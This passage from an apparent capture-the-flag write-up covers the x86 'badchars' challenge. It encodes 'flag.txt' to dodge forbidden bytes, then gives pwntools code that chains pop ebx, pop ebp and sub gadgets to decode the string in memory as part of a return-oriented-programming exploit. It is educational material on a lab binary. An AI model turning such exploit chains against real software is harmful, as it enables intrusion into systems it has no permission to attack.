 We have three options to decode our string in memory,
`xor`, `add`, and `sub`. All of these instructions have
the capability to decode our ciphertext, but we'll
use the `sub` instruction which has
the address `0x0804854b`

First let's write a function to encode our string.
We're going to use a `sub` gadget to decode the
cipher text so we'll need to add values to encode
it. We'll add 2 to every character since adding 1
would turn the `f` in `flag.txt` into a `g` which
is a forbidden character. The encoding function
looks like this

```python
def encode_str(s):
    blist = bytearray(s)
    for i in range(0, len(blist)):
        blist[i] += 2
    return blist
```

Now let's write a function to decode our cipher text.
The value we want to subtract will be placed into `bl` (2)
and `ebp` will have the address of the byte we want to 
decode. The `bl` register refers to the lower 8 bits of
the `ebx` register. We already have a `pop ebp` gadget
so let's find a `pop ebx` gadget as well

```
/R pop ebx
```

![pop ebx](/images/badchars/x86-pop-ebx.png)

Our gadget address is `0x080485d6` so now we can
write a decoding function

```python
#!/bin/python3
from pwn import *

sub_addr = 0x0804854b       # sub byte [ebp], bl
pop_ebp = 0x080485bb        # ebp = address to modify with sub
pop_ebx = 0x080485d6        # bl is low 8 of ebx

def decode_str(addr, s):
    payload = b''
    # subtract 2 from every character
    for i in range(0, len(s)):
        # value to subtract
        ebx = p32(0x2)
        # address to modify
        ebp = p32(addr + i)
        payload += p32(pop_ebx) + ebx
        payload += p32(pop_ebp) + ebp
        payload += p32(sub_addr)
    return payload
```

